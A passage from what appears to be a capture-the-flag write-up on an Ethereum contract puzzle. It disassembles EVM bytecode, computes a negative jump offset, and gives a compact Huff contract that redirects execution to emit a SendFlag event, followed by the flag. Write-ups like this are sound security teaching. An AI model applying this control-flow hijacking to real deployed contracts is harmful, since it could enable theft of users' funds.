 ```
0x1a5: JUMPDEST
0x1a6: CALLVALUE
0x1a7: PUSH1 0x01
0x1a9: EQ
0x1aa: PUSH2 0x01f5
0x1ad: JUMPI
```

This is the process that checks for the `msg.value == 1` condition mentioned earlier. If the condition is satisfied, it jumps to `0x1f5`.

```
0x1f5: JUMPDEST
0x1f6: PUSH1 0x40
0x1f8: MLOAD
0x1f9: CALLER
0x1fa: DUP2
0x1fb: MSTORE
0x1fc: PUSH32 0x2d3bd82a572c860ef85a36e8d4873a9deed3f76b9fddbf13fbe4fe8a97c4a579
```

By setting the program counter to `0x1f5`, it can be seen that the `SendFlag` event can be emitted.
Then, what value should `v` be set to?

The `JUMPDEST` address in `renounce` stored in `set.ptr` is `0x22a`, and the address to jump to is `0x1f5`.
Thus, `v` needs to be `0x1f5 - 0x22a = - 0xcb`.

However, the problem is that the size of the deployed contract must be less than 12 bytes.
Storing a negative value requires many bytes, as in `PUSHx 0xffff..cb`.
Reading the disassembled result, `PUSH4 0xffffffcb` is sufficient, but it still does not meet the 12-byte limit.

For this reason, instead of using `PUSH`, I decided to store the negative value in another space in advance and get it.
There are several ways to do this, but this time I sent `0xffffffcb` wei to address `GASPRICE()` so that I could get `0xffffffcb` in `BALANCE(GASPRICE())`.

Therefore, deploying the following contract and calling `execute` can emit a `SendFlag` event.

```cpp
#define macro MAIN() = takes (0) returns (0) {
    gasprice balance 0x20 mstore 
    number callvalue mstore
    0x40 callvalue revert
}
```

Flag: `77496328-ab8d-4bf7-a918-3d1f7ad5c5ac`

### GOATFinance

[Source](GOATFinance)

>How to become a G.O.A.T in DIFI world?
